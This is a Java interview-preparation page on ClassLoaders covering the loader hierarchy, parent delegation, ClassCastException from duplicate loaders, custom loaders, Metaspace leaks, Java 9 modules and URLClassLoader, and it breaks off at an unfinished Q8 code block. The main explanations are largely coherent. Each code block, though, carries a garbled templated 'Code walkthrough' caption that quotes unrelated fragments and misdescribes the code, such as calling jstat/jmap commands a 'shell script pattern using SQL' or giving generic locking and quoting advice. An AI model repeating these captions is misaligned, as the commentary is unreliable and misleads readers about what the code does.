







## Table of contents
{: .no_toc }

1. TOC
{:toc}

---

# Java Core - L4 ClassLoader

## ClassLoader Architecture

---

### 🎯 Model Answer

**30 seconds:**
> ClassLoaders load `.class` bytecode into the JVM's method area. Java uses
> a three-level hierarchy: Bootstrap ClassLoader (JDK core: java.lang, java.util),
> Platform ClassLoader (Java 9+, formerly Extension: JDK modules), Application
> ClassLoader (application classpath). The delegation model: before loading a
> class, a loader first asks its parent. This ensures `java.lang.String` always
> comes from Bootstrap, never overridden by application classes. Custom
> ClassLoaders enable: OSGi plugin isolation, hot class reloading, sandboxed
> multi-tenant apps, bytecode instrumentation.

**3 minutes (Senior):**
> Class identity in the JVM = `(ClassLoader, fully-qualified-name)`. Two
> copies of `com.example.Foo` loaded by different ClassLoaders are DIFFERENT
> classes - they cannot be cast to each other (ClassCastException). This is
> the foundation of class isolation in OSGi and application servers.
>
> Java 9 module system changed the loader hierarchy: the three-loader model
> (Bootstrap, Extension, App) became (Bootstrap, Platform, App), but with
> modules, most JDK classes load from named modules via `jdk.internal.loader`.
> Memory leak pattern: ClassLoader leak - a long-lived object holds a
> reference to a class loaded by a ClassLoader that should be garbage collected.
> The ClassLoader keeps ALL its loaded classes and their static fields alive.
> Web container hot-deploy: redeploy loads a new ClassLoader; if the old one
> leaks, PermGen/Metaspace fills up.

**Framework:** WHAT → WHY → HOW → TRADE-OFF → EXAMPLE

**Blank Mind Recovery:**

**(1) Restate:** "ClassLoader architecture - let me cover the three-level
hierarchy, parent delegation, custom ClassLoaders, class identity, and
memory leak patterns."

**(2) First principles:** "Classes need to be loaded from bytecode into JVM
memory before they can be instantiated. ClassLoaders are the mechanism.
The delegation model ensures core JDK classes are always authoritative -
you can't substitute your own `java.lang.String` because Bootstrap wins."

**(3) Bridge:** "The ClassLoader hierarchy is like a corporate org chart
for class loading. When a department (ClassLoader) needs something, it asks
its manager (parent) first. Only if the manager doesn't have it does the
department load it itself. Bootstrap is the CEO whose decisions override everyone."

---

---

### 🎯 Interview Deep-Dive

| Question Category | Time to Answer |
|---|---|
| ClassLoader hierarchy | 2 minutes |
| Parent delegation algorithm | 2 minutes |
| Class identity | 2 minutes |
| Custom ClassLoader use cases | 2 minutes |
| ClassLoader memory leaks | 3 minutes |
| Java 9 module impact | 2 minutes |
| URLClassLoader | 90 seconds |
| Context ClassLoader | 2 minutes |
| OSGi isolation model | 2-3 minutes |
| Hot class reloading | 2 minutes |
| ClassCastException from CL | 2 minutes |
| Service loader pattern | 2 minutes |

---

**Q1 (ClassLoader hierarchy): Describe the ClassLoader hierarchy.**

A:
```
Bootstrap ClassLoader (C++)
  - Loads: java.*, javax.* core packages
  - In Java 9+: loads from java.base module
  - getClassLoader() returns null (not a Java object)
  - Cannot be obtained; Class.class.getClassLoader() == null

Platform ClassLoader (Java 9+, was Extension CL)
  - Loads: JDK non-core modules (java.sql, java.xml, java.crypto, etc.)
  - Parent: Bootstrap
  - ClassLoader.getPlatformClassLoader()

Application (System) ClassLoader
  - Loads: app classpath (-cp, -jar, CLASSPATH env var)
  - Parent: Platform
  - ClassLoader.getSystemClassLoader()
  - Default for most code
```

> **Code walkthrough:** This "Retained Heap" of old loaders = what's leaking example demonstrates a key concept in practice. **KEY MECHANISM:** the runtime executes these instructions in sequence with specific memory and execution semantics. **WHY IT MATTERS:** misapplying this pattern causes subtle bugs that only manifest under production load. **TAKEAWAY: understand the execution model before using this pattern in production code.**

```java
// Verify the hierarchy:
ClassLoader appCL = ClassLoader.getSystemClassLoader();
ClassLoader platformCL = ClassLoader.getPlatformClassLoader();

// App CL parent is Platform CL:
System.out.println(appCL.getParent() == platformCL); // true

// Platform CL parent is null (Bootstrap, not a Java object):
System.out.println(platformCL.getParent()); // null

// Where is a class loaded from?
System.out.println(String.class.getClassLoader());   // null (Bootstrap)
System.out.println(java.sql.Driver.class.getClassLoader()); // Platform
System.out.println(MyApp.class.getClassLoader());   // Application
```

> **Code walkthrough:** This "Retained Heap" of old loaders = what's leaking example demonstrates Java API usage. **KEY MECHANISM:** the JVM compiles to bytecode that runs on the JVM; JIT compiles hot paths to native. **WHY IT MATTERS:** unchecked assumptions about thread safety cause data races under concurrent load. **TAKEAWAY: document thread-safety guarantees on every shared mutable class.**

*What separates good from great:* The Java 9 module system changed class
loading internals significantly. In Java 8: three `sun.misc.Launcher$*`
loaders. In Java 9+: named module loaders. The public API
(`ClassLoader.getPlatformClassLoader()`, `ClassLoader.getSystemClassLoader()`)
is stable, but the implementation changed. Important for tooling: agents
and frameworks that used to call `sun.misc.Launcher.getLauncher().getClassPathEntries()`
broke on Java 9. The `ClassLoader` API is the stable interface; internal
loader implementations are JDK-private.

---

**Q2 (Parent delegation algorithm): Walk through the parent delegation algorithm.**

A:
```java
// Default ClassLoader.loadClass() implementation (conceptual):
protected Class<?> loadClass(String name, boolean resolve)
        throws ClassNotFoundException {
    synchronized (getClassLoadingLock(name)) {
        // Step 1: Check if already loaded in this ClassLoader:
        Class<?> c = findLoadedClass(name);

        if (c == null) {
            // Step 2: Delegate to parent (or Bootstrap if parent is null):
            try {
                if (getParent() != null) {
                    c = getParent().loadClass(name, false);
                } else {
                    // Parent is Bootstrap (null): try native bootstrap
                    c = findBootstrapClassOrNull(name);
                }
            } catch (ClassNotFoundException e) {
                // Parent couldn't find it - that's OK, we'll try
            }

            // Step 3: If parent didn't find it, try this ClassLoader:
            if (c == null) {
                c = findClass(name); // override THIS method in subclasses
            }
        }

        if (resolve) resolveClass(c);
        return c;
    }
}

// Custom ClassLoader: override findClass, not loadClass
// (Unless you need child-first loading, like Tomcat WebappClassLoader)
@Override
protected Class<?> findClass(String name) throws ClassNotFoundException {
    byte[] bytecode = loadBytecodeFromMySource(name);
    return defineClass(name, bytecode, 0, bytecode.length);
}
```

> **Code walkthrough:** This "Retained Heap" of old loaders = what's leaking example demonstrates mutex locking using concurrency primitive. **KEY MECHANISM:** the JVM acquires the intrinsic lock on the object monitor before entering the block. **WHY IT MATTERS:** a thread holding the lock blocks all other threads - a bottleneck at scale. **TAKEAWAY: prefer ReentrantLock or ConcurrentHashMap over synchronized for hot paths.**

*What separates good from great:* The `synchronized(getClassLoadingLock(name))`
is critical: class loading is serialized per class name within each
ClassLoader. Without this: two threads loading the same class simultaneously
could `defineClass()` it twice - a `LinkageError`. The `getClassLoadingLock()`
returns a per-name lock object (Java 7+), allowing concurrent loading of
DIFFERENT classes. Before Java 7: the entire ClassLoader was synchronized
on `this`, causing lock contention in parallel-loading scenarios.

---

**Q3 (Class identity): When do you get ClassCastException from ClassLoader issues?**

A:
```java
// Scenario: two ClassLoaders load the same class
ClassLoader cl1 = new URLClassLoader(urls, parent);
ClassLoader cl2 = new URLClassLoader(urls, parent);

Class<?> clazz1 = cl1.loadClass("com.example.Service");
Class<?> clazz2 = cl2.loadClass("com.example.Service");

System.out.println(clazz1 == clazz2); // false! different class objects

Object obj1 = clazz1.getDeclaredConstructor().newInstance();
Object obj2 = clazz2.getDeclaredConstructor().newInstance();

// If parent delegation works correctly and com.example.Service
// is on the parent classpath: clazz1 == clazz2 (both delegated to parent)

// ClassCastException scenario:
// cl1 loads Service (NOT on parent classpath)
// cl2 also loads Service independently
// An interface IService is on the PARENT classpath (shared)
// Both Service classes implement the same IService interface bytecode

// Attempting to use cl2's instance where cl1's Service is expected:
com.example.Service s = (com.example.Service) obj2; // ClassCastException!
// obj2 IS-A [cl2]com.example.Service
// but you're casting to [cl1]com.example.Service
// These are DIFFERENT classes despite same fully-qualified name

// DIAGNOSIS:
// "cannot be cast to class com.example.Service
// (com.example.Service is in unnamed module of loader 'app';
//  com.example.Service is in unnamed module of loader 'custom')"
// Note: TWO different loaders mentioned for the SAME class name = CL issue
```

> **Code walkthrough:** This "Retained Heap" of old loaders = what's leaking example demonstrates contract definition using interface. **KEY MECHANISM:** the JVM uses dynamic dispatch for all interface method calls. **WHY IT MATTERS:** interfaces with default methods can conflict at compile time via diamond problem. **TAKEAWAY: interfaces define contracts; prefer them over abstract classes for unrelated types.**

*What separates good from great:* This ClassCastException is the classic
"what class is it really?" production issue in application servers and OSGi.
When you see a ClassCastException mentioning the SAME class name twice,
it's always a ClassLoader mismatch. The diagnostic information in Java 9+
includes the module and loader name, making it much easier to diagnose.
Java 8 error: just the class name, no loader info (confusing). Java 9+
error: `(com.example.Foo is in unnamed module of loader 'app')` - the
loader name identifies which ClassLoader loaded it.

---

**Q4 (Custom ClassLoader use cases): What are the main use cases for custom ClassLoaders?**

A:
1. **Plugin isolation:** separate ClassLoader per plugin, preventing classpath conflicts
2. **Hot class reloading:** re-read `.class` files without JVM restart (JRebel, Spring DevTools)
3. **Multi-tenant isolation:** each tenant's classes isolated (prevents cross-tenant access)
4. **Bytecode transformation:** instrument classes at load time (agents, AOP weaving)
5. **Sandboxing:** restrict what classes a loaded plugin can access
6. **Custom class sources:** load from database, network, encrypted files, ZIP

```java
// Bytecode transformation on load:
class TransformingClassLoader extends ClassLoader {
    private final ClassFileTransformer transformer;

    @Override
    protected Class<?> findClass(String name) throws ClassNotFoundException {
        byte[] original = loadBytesFromParent(name);
        byte[] transformed = transformer.transform(
            this, name.replace('.', '/'), null, null, original);
        byte[] bytecode = (transformed != null) ? transformed : original;
        return defineClass(name, bytecode, 0, bytecode.length);
    }
}
// Used by: AspectJ load-time weaving, test coverage tools (JaCoCo),
// profilers (adding timing instrumentation to all methods)

// Network class loading (applets era, still used in distributed systems):
ClassLoader netLoader = new URLClassLoader(
    new URL[]{ new URL("http://example.com/plugins/") },
    getClass().getClassLoader()); // SECURITY: sandbox this carefully!
// Modern use: OSGi bundles loaded from Maven repositories
```

> **Code walkthrough:** This Unknown example demonstrates Java API usage using generic type. **KEY MECHANISM:** the JVM compiles to bytecode that runs on the JVM; JIT compiles hot paths to native. **WHY IT MATTERS:** unchecked assumptions about thread safety cause data races under concurrent load. **TAKEAWAY: document thread-safety guarantees on every shared mutable class.**

*What separates good from great:* Java agents (`java.lang.instrument.Instrumentation`)
use ClassLoader-based bytecode transformation. The `ClassFileTransformer`
interface (in the JVM Agent API) intercepts every class load and can
return modified bytecode. This is how JaCoCo (code coverage), profilers
(YourKit, JProfiler), APM tools (New Relic, Datadog), and Spring DevTools
work. They register a `ClassFileTransformer` that adds instrumentation
to method entries/exits without touching source code. Understanding this
mechanism is essential for explaining how "zero-code instrumentation" works.

---

**Q5 (ClassLoader memory leaks): How do ClassLoader memory leaks occur?**

A:
```
Root cause: A reference from a long-lived object (survivor) to an object
whose class was loaded by a ClassLoader (victim CL) prevents the victim CL
from being GC'd.

Victim CL is kept alive ->
All classes it loaded are kept alive (class objects in Metaspace) ->
All static fields of those classes are kept alive ->
All objects referenced by those static fields are kept alive

Result: Metaspace OOM after N hot-redeploys

Reference chain types that cause leaks:

1. Thread pool thread -> ThreadLocal value -> webapp class
   ThreadLocal<SomeWebappType> tl = new ThreadLocal<>();
   // After undeploy: thread survives (pool reuse), webapp CL cannot GC

2. JDK static registry -> webapp object:
   java.sql.DriverManager -> JDBC driver loaded by webapp CL
   java.beans.Introspector -> cached BeanInfo from webapp classes

3. Logging system static -> webapp appender/formatter:
   log4j/logback static context -> appender registered from webapp

4. Scheduled timer / thread started by webapp:
   new Timer(true).schedule(...) // daemon thread, but holds webapp reference
```

> **Code walkthrough:** This Unknown example demonstrates a key concept in practice. **KEY MECHANISM:** the runtime executes these instructions in sequence with specific memory and execution semantics. **WHY IT MATTERS:** misapplying this pattern causes subtle bugs that only manifest under production load. **TAKEAWAY: understand the execution model before using this pattern in production code.**

Diagnosis:
```bash
# Check Metaspace growth:
jstat -gcmetacapacity <pid> 1000 20

# Heap dump and analyze with Eclipse MAT:
jmap -dump:live,format=b,file=heap.hprof <pid>
# MAT: OQL: SELECT * FROM java.lang.ClassLoader
# "Retained heap" on old ClassLoader instances = what's leaking
# Path to GC roots shows the reference chain

# Tomcat-specific: leak detection built in
# catalina.out shows: "The web application [myapp] appears to have
# started a thread named [xyz] but has failed to stop it"
```

> **Code walkthrough:** This started a thread named [xyz] but has failed to stop it" example demonstrates shell script pattern using SQL. **KEY MECHANISM:** the shell executes commands sequentially; pipes pass stdout of one command to stdin of the next. **WHY IT MATTERS:** unquoted variables with spaces cause word splitting - IFS splits the value into multiple arguments. **TAKEAWAY: always double-quote variables: "$VAR"; use [[ ]] instead of [ ] for safer conditionals.**

*What separates good from great:* Production Tomcat environments deploy
the same application repeatedly (CI/CD, config changes). Without proper
ClassLoader cleanup, Metaspace grows until the JVM crashes. The fix requires
a lifecycle listener (Tomcat: `ServletContextListener.contextDestroyed()`)
that explicitly cleans up: deregister JDBC drivers, remove ThreadLocals,
cancel scheduled tasks, flush logging. Frameworks like Spring provide
`ContextLoaderListener` that handles Spring bean shutdown. But custom
code (thread pools, JDBC drivers registered manually) needs explicit
cleanup. JVM argument `-XX:MaxMetaspaceSize=256m` forces OOM earlier
(to fail fast) rather than silently growing until the container host OOMs.

---

**Q6 (Java 9 module impact): How did Java 9 modules change ClassLoading?**

A:
```java
// Java 8: Extension ClassLoader loaded jars from java.ext.dirs
// Java 9: Extension ClassLoader -> Platform ClassLoader (loads JDK modules)

// Java 8 classpath additions to JDK modules (no longer works!):
// java.ext.dirs = /usr/java/ext (add jars here for extension CL) - GONE

// Java 9+: JDK packages in named modules
Module m = String.class.getModule();
System.out.println(m.getName()); // "java.base" (named module)

// Unnamed module (classpath code):
Module myMod = MyClass.class.getModule();
System.out.println(myMod.isNamed()); // false (classpath)

// Module restrictions on reflection:
// Without --add-opens: setAccessible() on JDK internals throws:
// InaccessibleObjectException: Unable to make field ... accessible

// Runtime --add-opens workaround:
// java --add-opens java.base/java.lang=ALL-UNNAMED
//      --add-opens java.base/java.util=ALL-UNNAMED
// (needed by Spring, Hibernate, Mockito on Java 9+)

// ServiceLoader (module-aware):
// META-INF/services/com.example.SomeService - still works
// module-info.java: uses com.example.SomeService; - module-aware
ServiceLoader<SomeService> loader = ServiceLoader.load(SomeService.class);
loader.forEach(service -> service.process(data));
```

> **Code walkthrough:** This started a thread named [xyz] but has failed to stop it" example demonstrates Java API usage. **KEY MECHANISM:** the JVM compiles to bytecode that runs on the JVM; JIT compiles hot paths to native. **WHY IT MATTERS:** unchecked assumptions about thread safety cause data races under concurrent load. **TAKEAWAY: document thread-safety guarantees on every shared mutable class.**

*What separates good from great:* The module system's impact on ClassLoading
was one of the most disruptive changes in Java's history. Pre-Java 9 tools
(reflection-heavy frameworks, code generation libraries, some Gradle/Maven
plugins) needed significant updates. The migration path:
(1) Add `--add-opens` as JVM flags temporarily; (2) Update libraries to
module-aware versions (Spring 5+ for Java 9+, Hibernate 6+ for Java 17+);
(3) Gradually adopt named modules in your own code. Java 17 "strong encapsulation"
made `--add-opens` mandatory for previously-accessible internal APIs.
Java 21 has no changes here, but expects module adoption to continue.

---

**Q7 (URLClassLoader): How does URLClassLoader work?**

A: `URLClassLoader` is the standard ClassLoader for loading classes from
URLs (files, directories, JAR files, HTTP endpoints).

```java
// Load from JAR file:
URL jarUrl = new File("my-plugin.jar").toURI().toURL();
URLClassLoader ucl = new URLClassLoader(
    new URL[]{ jarUrl },
    Thread.currentThread().getContextClassLoader()); // parent

// Load class from jar:
Class<?> clazz = ucl.loadClass("com.plugin.MainPlugin");
Object instance = clazz.getDeclaredConstructor().newInstance();

// Load multiple jars (plugin with dependencies):
File pluginDir = new File("plugins/my-plugin");
URL[] jars = Files.list(pluginDir.toPath())
    .filter(p -> p.toString().endsWith(".jar"))
    .map(p -> {
        try { return p.toUri().toURL(); }
        catch (Exception e) { throw new RuntimeException(e); }
    })
    .toArray(URL[]::new);
URLClassLoader ucl = new URLClassLoader(jars, parentLoader);

// IMPORTANT: close URLClassLoader when done (Java 7+)
// Without close(): JAR files remain open (file handle leak, Windows lock)
try {
    // ... use the ClassLoader ...
} finally {
    ucl.close(); // releases file handles and resources
}

// Try-with-resources (URLClassLoader implements Closeable):
try (URLClassLoader ucl2 = new URLClassLoader(jars, parent)) {
    Class<?> c = ucl2.loadClass("com.example.Foo");
    c.getMethod("run").invoke(c.newInstance());
}
// ucl2.close() called automatically
```

> **Code walkthrough:** This started a thread named [xyz] but has failed to stop it" example demonstrates exception handling using error handling. **KEY MECHANISM:** the JVM checks catch clauses in order; finally always executes for cleanup. **WHY IT MATTERS:** swallowing exceptions silently hides failures that corrupt downstream state. **TAKEAWAY: log or rethrow every exception; empty catch blocks are defects.**

*What separates good from great:* `ucl.close()` on Windows is critical:
open JAR files are locked by the OS. If you hot-deploy (replace the JAR
while the JVM runs), Windows throws `Permission denied` on file replacement
unless the ClassLoader is closed. Linux doesn't lock open files (can delete
while open), but the ClassLoader still holds a native file descriptor.
In long-running servers: unclosed URLClassLoaders leak file descriptors,
eventually hitting the OS limit (`Too many open files`). The try-with-resources
pattern is the correct idiom for URLClassLoader lifecycle management.

---

**Q8 (Context ClassLoader): What is the Thread context ClassLoader?**

A: Every thread has a context ClassLoader (`Thread.currentThread().getContextClassLoader()`).
It's a "fallback" ClassLoader set by the container (Tomcat, Spring Boot).

```java
